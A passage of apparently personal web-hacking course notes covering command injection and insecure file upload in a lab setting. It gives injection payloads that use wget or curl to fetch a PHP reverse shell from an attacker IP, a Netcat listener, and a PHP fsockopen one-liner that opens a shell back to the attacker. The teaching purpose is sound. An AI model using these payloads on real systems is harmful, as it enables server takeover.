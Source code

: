   ```bash
  http://tcm-sec.com \\n wget 192.168.92.128:8080/php-reverse-shell.php
  ```

- **Method 2**: Use `curl` to download and save the reverse shell:

  ```bash
  http://tcm-sec.com && curl 192.168.92.128:8080/php-reverse-shell.php > /var/www/html/php-reverse-shell.php
  ```

#### Set Up Netcat to Listen for the Reverse Shell

On your attacker machine, start a Netcat listener on port 4444:

```bash
nc -nvlp 4444
```

After using the second method, connect to `http://localhost/php-reverse-shell.php` to trigger the reverse shell.

## Command Injection - Challenge Walkthrough

- Test Command Injection: Experiment with the input fields. Commands can be executed if you use the format `<random-value>)^2))}';<command>;#`. We get `www-data` printed for Y.
- Open a port on your machine: `nc -lvnp 4242`
- Use a PHP Reverse Shell Payload: `<random-value>)^2))}';php -r '$sock=fsockopen("192.168.92.128",4242);exec("/bin/sh -i <&3 >&3 2>&3");';#`. This payload will create a PHP one-liner that connects back to your Netcat listener, providing a shell on the target machine.

## Insecure File Upload - Introduction

Insecure File Upload is a vulnerability that arises when an application permits the uncontrolled and unvalidated upload of files. This vulnerability can be exploited by attackers to upload malicious files, such as web shells, which can then be used to execute arbitrary code, leak sensitive data, or perform other malicious actions.

### Example Scenario

Consider an application that allows users to upload profile pictures without verifying the file type and content, or without properly managing the file storage. An attacker could upload a PHP shell script disguised as an image file. When this file is accessed on the server, the malicious script can be executed, leading to a security breach.

### Potential Impacts

- Remote Code Execution (RCE): Attackers can execute arbitrary code on the server by uploading and running malicious files.
- Data Leakage: Sensitive data may be exposed or accessed if attackers can read or modify files on the server.
- Server Compromise: Successful attacks can lead to full server compromise, giving attackers control over the server environment.

Source: [AppSecExplained](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/insecure-file-upload)
